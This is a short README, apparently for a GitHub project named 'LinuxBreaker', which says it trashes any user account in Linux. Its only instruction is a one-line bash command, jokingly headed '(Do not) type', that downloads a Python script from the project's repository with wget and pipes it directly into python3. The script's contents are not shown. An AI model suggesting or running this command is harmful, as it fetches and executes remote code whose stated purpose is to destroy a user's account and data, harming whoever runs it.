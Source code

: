 # LinuxBreaker
Trashes any user account in Linux

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3
